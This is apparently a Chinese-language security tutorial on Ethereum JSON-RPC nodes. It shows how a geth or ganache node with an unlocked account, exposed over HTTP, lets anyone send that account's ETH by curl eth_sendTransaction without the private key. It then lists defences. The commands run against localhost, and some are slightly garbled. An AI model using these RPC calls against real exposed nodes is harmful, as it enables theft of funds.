

# 黑入以太坊节点

当您使用 metamask 发送交易时（真的）发生了什么？（好吧，这笔交易是在伦敦分叉之前发生的，但这在这里并不重要。）


```
{
  "from": "0x8900987a0654d979bB7cD8aaADd19Cf032B51D2e",
  "to": "0xAaBbCcDdEeFf00112233",
  "value": "2500000000000000000",
  "gas": 21000,
  "gasPrice": "50000000000",
  "nonce": 5
}
```

**这个交易提交到区块链对吧？是的，也许可以，但您错过了中间的几个关键步骤。**

事实上，当你点击**“Metamask”**上的**“sendTransaction”**时。（或在任何其他钱包中）您的交易不会直接提交给区块链。

Metamask 正在使用包含以下 JSON 片段的 RPC 请求来查询“RPC 节点”：


```
{
    "jsonrpc":"2.0",
    "method":"eth_sendTransaction",
    "params":[{
        "from": "0x95F1F945cA47387aA36f97b2F9bC59fcF3A3eE6a",
        "to": "0x92B934fC0d243FaF97d521b9AFCc0A5553F5dAa6",
        "value": "100000000000000000",
        "gas": "0x5208",
        "gasPrice": "0x989680",
        "nonce": "0x0"
    }],
    "id":1
}
```

这段JSON，发送到RPC节点（通过HTTP协议），默认在metamask上，节点来自infura。

**基本上，它要求 RPC 节点处理事务并将其广播到其他以太坊节点。**

**这里一个 RPC 请求用于与 RPC 节点通信并询问他一些操作（比如获取最新的块、获取地址的余额或发送交易）**


分析发送的 JSON 的所有 4 个字段非常容易。

- **“jsonrpc”** →（jsonrpc 版本）这里是“2.0”
- **“method”** → （你想做什么这个RPC节点），这里是“发送交易”
- **“params”** → ()，这是要以JSON格式发送的交易。
- **“id”** → 1（此处不相关）

之后，该节点将发送的交易广播到以太坊网络中的所有其他节点。

然后交易被结算到每个节点中的“内存池”并等待被挖掘。



**但是，我们没有在这里谈论黑客？**→ 别担心，它很快就会来。但首先要学习基础知识，否则你不会明白我在说什么。


## 如何启动一个 JSON-RPC 节点？

你能创建自己的 JSON-RPC 节点吗？

**是的当然 ！你可以用 geth 来做，但这有点难。（因为选项很多，需要掌握很多概念）**

如果你想“快速”开始，安装**“ganache_cli”**会更快，它将创建一个测试私有区块链并将一个 RPC 节点“附加”到它。因此，让我们输入以下命令：


1. 安装 ganache-cli

```
npm install -g ganache-cli
```

2.启动一个测试私有链加上一个JSON-RPC节点，分配1000000000000000000000000000到wei到0xa71E43Be339F9791235641F457c1Ba2DA86b9Eb3（私钥8000的地址……）

```
ganache-cli --account=0x8000000000000000000000000000000000000000000000000000000000000000,10000000000000000000000000000
```

命令的输出应该是这样的：


命令的输出应该是这样的：

```
Ganache CLI v6.12.2 (ganache-core: 2.13.2)

Available Accounts
==================
(0) 0xa71E43Be339F9791235641F457c1Ba2DA86b9Eb3 (1000000000 ETH)

Private Keys
==================
(0) 0x8000000000000000000000000000000000000000000000000000000000000000

Gas Price
==================
20000000000

Gas Limit
==================
6721975

Call Gas Limit
==================
9007199254740991

Listening on 127.0.0.1:8545
```


RPC 节点正在监听 127.0.0.1:8545（因此在我们自己的计算机的端口 8545 中）

\3. 打开一个新的 Windows 终端（或 Linux，如果您正在使用它），然后键入以下命令。

（它发送一个 JSON RPC 请求以获取我们私有区块链中第一个地址的余额）


```
curl -X POST --data "{\"jsonrpc\":\"2.0\",\"method\":\"eth_getBalance\",\"params\":[\"0xa71E43Be339F9791235641F457c1Ba2DA86b9Eb3\", \"latest\"],\"id\":1}" -H "Content-Type: application/json" http://localhost:8545
```


这是如何回应的：

```
{"id":1,"jsonrpc":"2.0","result":"0x33b2e3c9fd0803ce8000000"}
```

它显示了 0xa71E43Be339F9791235641F457c1Ba2DA86b9Eb3 的余额，wei 格式为十六进制数。（在我们的区块链中）

# 问题是什么 ？

到这里为止应该没有问题吧？

好吧，不。

使用 ganache_cli（它实际上是 geth 的抽象），您通常使用未锁定的帐户启动您的节点。（为了签署所有区块并在 PoA 网络中挖掘它们）

**但是一旦你解锁了你的账户，幕后发生了什么？**

**在你输入密码后，geth 将在 geth 的内存中以“明文”形式丢弃用于签署交易的私钥。（RAM中的某个地方很短）**

**请记住，我们使用了 ganache，它只是带有一些抽象的 geth，比如输入这个命令。**

```
geth --datadir data --networkid 1331 --http --allow-insecure-unlock --http.addr 0.0.0.0 --http.corsdomain "*" --http.vhosts "*" --unlock 0xa71E43Be339F9791235641F457c1Ba2DA86b9Eb3 console
```


但是为什么解锁帐户是必要的？

- 通常，用于挖矿交易。
- 用于在 PoA 网络中签署区块。
- 用于发送交易。

好的，但是谁可以访问你的计算机或 VPS 的内存（如果你想共享你的私有区块链或你的私有节点）？黑客至少需要登录（例如使用SSH），并获得转储Linux内存的权限，这并不容易。

他们没有密码，也不太可能存在允许黑客以 root 身份在您的 VPS 中执行代码的漏洞。（除非系统拥有非常糟糕的配置）

所以你安全吗？


## 但它可能会变得更糟？

**在 geth 中，如果一个帐户被解锁，您可以在 RPC 调用中使用该帐户执行更多操作。**

有几十种方法可以请求到 RPC 节点，这里有一些例子，你可能已经知道了：

- eth_getBalance
- eth_getCode
- eth_getStorageAt
- eth_call
- eth_sendTransaction

**例如，metamask 使用这些方法来获取有关您钱包的所有信息。**

事实上，在一个 Windows 命令行中，我可以要求 RPC 节点将解锁账户的所有 ETH 发送到另一个账户。（不要忘记用\转义“，否则会出错。）


```
curl -X POST --data "{\"jsonrpc\":\"2.0\",\"method\":\"eth_sendTransaction\",\"params\":[{\"from\": \"0xa71E43Be339F9791235641F457c1Ba2DA86b9Eb3 \",\"to\": \"0x1D245F0C3f7eF71d36B0Fd23cE40b4AA4a289a2D\",\"值\": \"0x38d7ea4c6800000\"}],\"id\":1}" -H "Content-Type: application/ json " http ://localhost:8545 

{ "id" :1, "jsonrpc" : "2.0" , "result" : "0x5aa6cb2ade333fa655a95673e7027f8e5d2eb565879e80ac5c0903187f00d3c4" }
```


我使用了带有这 3 个参数的“eth_sendTransaction”方法：

- from : 0xa71E43Be339F9791235641F457c1Ba2DA86b9Eb3
- to : 0x1D245F0C3f7eF71d36B0Fd23cE40b4AA4a289a2D
- value : 0x38d7ea4c6800000 (in hex)


RPC 节点处理请求并发送响应：

- 0x5aa6cb2ade333fa655a95673e7027f8e5d2eb565879e80ac5c0903187f00d3c4 (this is the transaction hash)

**请注意，我没有用私钥签署交易！！**

给定交易哈希（使用 eth_getTransactionReceipt），我可以再次调用请求交易收据的节点：

```
curl -X POST --data "{\"jsonrpc\":\"2.0\",\"method\":\"eth_getTransactionReceipt\",\"params\":[\"0x5aa6cb2ade333fa655a95673e7027f8e5d2eb565879e80ac5c0903187f00d3c4\"],\"id\":1}" -H "Content-Type: application/json" http://localhost:8545
```


（别忘了更改交易哈希，它不会和我的一样）

这是结果：


```
{"id":1,"jsonrpc":"2.0","result":{"transactionHash":"0x5aa6cb2ade333fa655a95673e7027f8e5d2eb565879e80ac5c0903187f00d3c4","transactionIndex":"0x0","blockHash":"0xbbdd4c0e3a6b848891eef8a24941bdd37d5596a9090aa29f4683dac372abfca0","blockNumber":"0x8","from":"0x6166f7ee676a28afb4231145d9838539757b0b85","to":"0x1d245f0c3f7ef71d36b0fd23ce40b4aa4a289a2d","gasUsed":"0x5208","cumulativeGasUsed":"0x5208","contractAddress":null,"logs":[],"status":"0x1","logsBloom":"0x00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000"}}
```


交易已被处理，资金已转移，但没有私钥。

很棒吧？

**我们能够在没有私钥的情况下窃取地址的资金，但这并不是唯一的危险，也可以在不拥有私钥的情况下使用解锁地址签署交易。**

# 您如何保护您的节点免受此缺陷的影响？

有几种方法可以避免此缺陷。

- 您可以使用防火墙过滤服务器中的所有流量以删除危险方法（这是有风险的，因为几乎总有办法绕过）
- 您可以为您的区块链创建 2 个节点，一个具有未锁定帐户，用于挖掘新块并且**世界无法访问**，另一个没有未锁定帐户并与第一个节点同步但可从外部访问以查询交易。